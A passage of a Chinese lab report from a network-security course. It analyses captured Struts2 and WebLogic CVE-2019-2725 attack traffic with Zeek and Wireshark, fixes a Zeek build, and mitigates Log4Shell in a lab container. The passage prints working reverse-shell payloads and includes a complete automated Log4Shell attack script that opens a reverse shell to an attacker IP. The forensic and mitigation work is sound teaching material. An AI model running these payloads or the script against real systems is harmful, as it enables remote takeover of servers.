在 `http.log` 文件中找到 `POST` 请求 `cat http.log | grep 'POST'`



根据 `数据包大小` `目标 IP` 等信息，检查可疑流量

根据 `resp_fuids` 字段追踪到 `extract_files` 文件夹中的文件 [`extract-1721031278.696195-HTTP-F09DHeMj0fa3AJXZf`](../code/lihan_code/tcpdump/test_zeek/extract_files/extract-1721031278.696195-HTTP-F09DHeMj0fa3AJXZf)

在 `extract_files` 文件中找到攻击流量

```bash
# cat extract_files/extract-1721031278.696195-HTTP-F09DHeMj0fa3AJXZf
id=%25%7b%28%23instancemanager%3d%23application%5b%22org.apache.tomcat.InstanceManager%22%5d%29.%28%23stack%3d%23attr%5b%22com.opensymphony.xwork2.util.ValueStack.ValueStack%22%5d%29.%28%23bean%3d%23instancemanager.newInstance%28%22org.apache.commons.collections.BeanMap%22%29%29.%28%23bean.setBean%28%23stack%29%29.%28%23context%3d%23bean.get%28%22context%22%29%29.%28%23bean.setBean%28%23context%29%29.%28%23macc%3d%23bean.get%28%22memberAccess%22%29%29.%28%23bean.setBean%28%23macc%29%29.%28%23emptyset%3d%23instancemanager.newInstance%28%22java.util.HashSet%22%29%29.%28%23bean.put%28%22excludedClasses%22%2c%23emptyset%29%29.%28%23bean.put%28%22excludedPackageNames%22%2c%23emptyset%29%29.%28%23execute%3d%23instancemanager.newInstance%28%22freemarker.template.utility.Execute%22%29%29.%28%23execute.exec%28%7b%22bash%20-c%20%7becho%2cYmFzaCAtYyAnMDwmMTg0LTtleGVjIDE4NDw%2bL2Rldi90Y3AvMTkyLjE2OC40LjEzMC80NDQ0O3NoIDwmMTg0ID4mMTg0IDI%2bJjE4NCc%3d%7d%7c%7bbase64%2c-d%7d%7cbash%22%7d%29%29%7d
```

---

### CVE-2019-2725 分析

--

1. wireshark 分析

根据 [`exploit/multi/misc/weblogic_deserialize_asyncresponseservice 模组的源码`](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/weblogic_deserialize_asyncresponseservice.rb) ：
```ruby
def check
  res = send_request_cgi(
    'uri' => normalize_uri(target_uri.path),
    'method' => 'POST',
    'ctype' => 'text/xml',
    'headers' => { 'SOAPAction' => '' }
  )

...

when 'Unix', 'Solaris'
  string0_cmd = '/bin/bash'
  string1_param = '-c'
  shell_payload = payload.encoded
```
使用 `xml.cdata contains "/bin/bash"` 进行过滤 成功找到攻击流量



--

2. zeek 分析

在 `http.log` 文件中找到 `POST` 请求 `cat http.log | grep 'POST'`



根据 `数据包大小` `目标 IP` 等信息，检查可疑流量

根据 `resp_fuids` 字段追踪到 `extract_files` 文件夹中的文件 [`extract-1721031619.297156-HTTP-FhwTjm4kJ4ayjxLYHl`](../code/lihan_code/tcpdump/test_zeek/extract_files/extract-1721031619.297156-HTTP-FhwTjm4kJ4ayjxLYHl)

在 `extract_files` 文件中找到攻击流量

```bash
# cat extract_files/extract-1721031619.297156-HTTP-FhwTjm4kJ4ayjxLYHl
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"xmlns:wsa="http://www.w3.org/2005/08/addressing"xmlns:asy="http://www.bea.com/async/AsyncResponseService"><soapenv:Header><wsa:Action>HgyotaNU26Es7IyUbzqd</wsa:Action><wsa:RelatesTo>uCWTSjSfjN8F2jJ4hi2C</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>bash -c '0&lt;&amp;177-;exec 177&lt;&gt;/dev/tcp/192.168.182.130/4444;sh &lt;&amp;177 &gt;&amp;177 2&gt;&amp;177'</string></void></array><void method="start"/></void></work:WorkContext></soapenv:Header><soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```

---

### 问题

--

`zeek` 编译安装失败

- 在链接 `caf` 时报错 

- 原因：找不到 `caf` 库
- 解决：安装 `caf` 库或使用 `zeek` 官方提供的 [`zeek` 镜像](https://github.com/zeek/zeek-docker)
根据官网的安装指南，安装 `caf` 库

```bash
git clone https://github.com/actor-framework/actor-framework.git
cd actor-framework
mkdir build
cd build
cmake ..
make
sudo make install
# 手动创建 `actor-framework.pc` 文件
ls /usr/local/include/caf
ls /usr/local/lib
sudo mkdir -p /usr/local/lib/pkgconfig
sudo nano /usr/local/lib/pkgconfig/actor-framework.pc
prefix=/usr/local
exec_prefix=${prefix}
libdir=${exec_prefix}/lib
includedir=${prefix}/include

Name: actor-framework
Description: An Open Source Implementation of the Actor Model in C++
Version: 0.18.3  # 根据实际安装的CAF版本修改
Libs: -L${libdir} -lcaf_core -lcaf_io
Cflags: -I${includedir}
sudo chmod -R 755 /home/kali/attack_test/test1/zeek/build
sudo chown -R $USER:$USER /home/kali/attack_test/test1/zeek/build

export PKG_CONFIG_PATH=/usr/local/lib/pkgconfig:$PKG_CONFIG_PATH
export LD_LIBRARY_PATH=/usr/local/lib:$LD_LIBRARY_PATH

#再次编译 `zeek`，成功
cd /path/to/zeek/build
make clean
cmake -DCMAKE_LIBRARY_PATH=/usr/local/lib ..
cmake ..
make && sudo make install
```

---

## 漏洞缓解与修复与自动化脚本攻击

---

### 漏洞缓解与修复

--

1. 修复漏洞并重构镜像重新构建容器

```bash
# Dockerfile
FROM vulfocus/log4j2-cve-2021-44228:latest
CMD ["java","-Dlog4j2.formatMsgNoLookups=true","-jar","/demo/demo.jar"]

# 构建镜像
sudo docker build -t vulfocus/log4j2-cve-2021-44228:latest .
```

2. 捕获指定容器的上下行流量

```bash
# kalitargetserver
# 在 tmux 中启动 tcpdump
sudo docker ps
# 将 container_id 替换为指定容器(CVE-2021-44228)的 ID
container_id="56410ce8fa18"
# 指定容器的上下行流量
sudo docker run --rm --net=container:${container_id} -v ${PWD}/tcpdump/${container_id}:/tcpdump kaazing/tcpdump
# Ctrl + B, D 退出 tmux
```

--

3. 重复漏洞利用流程

[](https://asciinema.org/a/aLyIkflE6LeT8nY3Y58w5MSq8)

攻击失败，检查 `tcpdump` 抓取的流量文件

[evidence](../code/lihan_code/tcpdump_evidence/tcpdump.pcap)

有失败的攻击流量，但没有成功，说明漏洞已缓解



---

### 自动化脚本攻击

--

[auto_atk_1](../code/lihan_code/auto/auto_atk_1.sh)

```bash
#!/bin/zsh

# 配置变量
ATTACKER_IP="192.168.182.130"
ATTACKER_PORT="7777"
TARGET_IP="192.168.182.129"
JNDI_EXPLOIT_PATH="/path/to/JNDIExploit-1.2-SNAPSHOT.jar"

# 提示用户输入目标端口
read "TARGET_PORT?Enter the target port: "

# 检查目标端口是否为空
if [[ -z "$TARGET_PORT" ]]; then
    echo "Error: Target port cannot be empty"
    exit 1
fi

echo "Using target port: $TARGET_PORT"

# 创建新的 tmux 会话，用于 nc 监听
tmux new-session -d -s nc_listener "nc -l -p $ATTACKER_PORT"

# 创建新的 tmux 会话，用于启动 JNDIExploit
tmux new-session -d -s jndi_exploit "java -jar $JNDI_EXPLOIT_PATH -i $TARGET_IP"

# 构建 payload
SHELL_COMMAND="bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1"
BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')
TARGET_URL="http://$TARGET_IP:$TARGET_PORT/hello"
FULL_PAYLOAD="\${jndi:ldap://$ATTACKER_IP:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}"
URL_FULL_PAYLOAD=$(echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g')

# 构建 curl 命令
CURL_COMMAND="curl \"${TARGET_URL}?payload=${URL_FULL_PAYLOAD}\""

# 输出并发送 payload
echo "Sending payload with the following curl command:"
echo $CURL_COMMAND
eval $CURL_COMMAND

echo "Attack deployed. Waiting for reverse shell connection..."
```

---

## 参考内容

- [配套课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html)

- [网络安全 (2023) 综合实验](https://www.bilibili.com/video/BV1p3411x7da?t=0.3)

- [小陈的容器镜像站](https://mp.weixin.qq.com/s/jaUb7sSLDBXrU3F7crtWPA)

- [Xuyan-cmd 的实验报告 ](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice)

- [zzz group 小组的实验报告](https://git.cuc.edu.cn/ccs/2024-summer-cp/zzz-group/-/blob/main/README.md?ref_type=heads)

- [git rebase 用法详解与工作原理](https://waynerv.com/posts/git-rebase-intro/)

- [CVE-2021-44228 Detail](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

- [从零到一带你深入 log4j2 Jndi RCE CVE-2021-44228漏洞](https://www.anquanke.com/post/id/263325)

- [Java反序列化过程中 RMI JRMP 以及 JNDI 多种利用方式详解](https://blog.topsec.com.cn/java反序列化过程中-rmi-jrmp-以及jndi多种利用方式详解/)

- [Log4j2 漏洞详解 (CVE-2021-44228)](https://blog.cloudflare.com/zh-cn/inside-the-log4j2-vulnerability-cve-2021-44228-zh-cn/)

- [What is URL encoding? - LocationIQ](https://locationiq.com/glossary/url-encoding)

- [Metasploit(MSF)使用详解(超详细)](https://blog.csdn.net/weixin_45588247/article/details/119614618)

- [编写 Dockerfile 的最佳实践](https://www.cnblogs.com/zuoyang/p/16355632.html)

- [kali 修改主机名方法](https://www.cnblogs.com/heiyu-sec/p/16305731.html)

- [Linux 临时 IP 以及静态 IP 配置](https://developer.aliyun.com/article/1491767)

- [了解如何管理 Microsoft Defender for Endpoint 中的 Log4Shell 漏洞](https://learn.microsoft.com/zh-cn/defender-vulnerability-management/tvm-manage-log4shell-guidance)

- [Apache Log4j 高危漏洞缓解和修复措施](https://blog.csdn.net/Orainge/article/details/129002226)

- [使用 zeek 来完成取证分析](https://c4pr1c3.github.io/cuc-ns/chap0x12/exp.html)

- [zeek 流量分析工具安装与使用](https://blog.csdn.net/hxhabcd123/article/details/129144399)

---

## 工具网站

- [ChatGPT](https://chatgpt.com/)

- [URL Decode and Encode](https://www.urlencoder.org/)

---